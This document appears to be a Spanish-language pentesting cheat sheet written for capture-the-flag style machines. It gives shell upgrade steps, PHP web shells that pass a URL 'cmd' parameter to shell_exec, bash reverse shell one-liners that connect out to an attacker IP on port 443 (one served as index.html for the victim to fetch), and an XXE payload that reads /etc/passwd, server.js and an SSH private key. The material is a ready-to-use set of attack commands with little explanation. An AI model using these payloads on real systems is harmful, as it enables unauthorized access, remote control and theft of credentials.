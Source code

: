 # Diferentes codigos ❮❯

## Tratamiento de la consola

 **Script /dev/null -c bash** Nos sales que esto no se puede hacer, por lo que hacemos lo siguiente
 **python3 -c ‘import pty;pty.spawn(“/bin/bash”)’** Para remplazar lo de arriba por si no nos deja
 **Ctrl + z**
 **stty raw -echo; fg**
 **reset xterm**

Despues cambiamos esto para poder hacer Ctrl+ l y Ctrl + c
**echo $SHELL** Para ver la ruta de shell y ver que valor tiene **/usr/bin/nologin**
**export SHELL=bash** o **export SHELL=/bin/bash**Hacemos que shell ahora valga bash
**export TERM=xterm** Para poder hacer Ctrl +c y Ctrl + l (l=ele)

Ahora para modificar las dimensiones de Vim/nano debemos hacer lo siguiente.
**stty size** Con este comando podemos ver las dimensiones de la consola nano de 24 80 por lo que debemos de modificar ese valor a este
**stty rows 51 columns 189** Modificamos las dimenesiones de la consola nano


## PHP
Con este codigo le decimos a la pagina que queremos que cuando se ejecute comandos cmd los guarde en la variable, esto si estamos en un Framework

* **Code**
function onStart() {
	$this->page["myVar"] = shell_exec(\$\_GET['cmd']);
}

Y para hacerlo funcionar debemos de hacer lo siguiente en:
* **Markup**
{{this.page.myVar}}
Que eso es lo que va a recibir del condigo anterior

Para poder ejecutar comandos en la URL debemos de colocar al final lo siguinete **?cmd=whoami**

****
Permite ejecutar un comando a nivel de sistema en la web y poder poner **?cmd=whoami**

❯ **nano cmd.php**
❮?php 
		echo "❮prep❯" . shell_exec(\$\_GET\['cmd']) . "❮/prep❯";
?❯


## Bash ReverShell
Este comando siempre se ejecuta en la maquina victima para hacer una ReverShell desde una URL
❯ **bash -c 'bash -i >& /dev/tcp/❮IP❯/❮PORT❯ 0>&1'** 
* Para hacer una ReverShell
* IP -> Direccion de la maquina de atacante
* PORT -> Puerto del netcat mas comun 443

****
Hacemos un archivo index.html y al momento de recibir la peticion **Curl** de la maquina victima podremos ejecutar la revershell y este debe ser interpretado por bash
❯ **nano index.html**
	**#!/bin/bash**
	**bash -i >& /dev/tcp/10.10.14.2/443 0>&1**


## XXE
Procedemos a crear un archivo asi:
❯ **vi file.xml** 
	❮?xml version=”1.0” encoding=”ISO-8859-1”?❯
		❮!DOCTYPE foo \[
		❮!ELEMENT foo ANY❯
	❮!ENTITY xxe SYSTEM “file:////opt/blog/server.js”❯]❯
	❮post❯
		❮title❯This is a test❮/title❯
		❮description❯Mensaje de prueba❮/description❯
		❮markdown❯&xxe;❮/markdown❯
	❮/post❯

Comandos que podemos meter en SYSTEM: 
**\file:///proc/net/fib_trie** Que nos muestra las direcciones IP que se encuetran ahi en la maquina 
**\file:///proc/net/tcp** Que nos muestra los puerto abiertos pero de manera interna, miramos que vienen en fomato hexadecimal y podemos desconvertirlos en alguna pagina web.
**\file:////etc/passwd** Ver los usuarios de la maquina 
**\file:///home/admin/.ssh/id_rsa** Tratar de listar la id_rsa de la maquina

## 
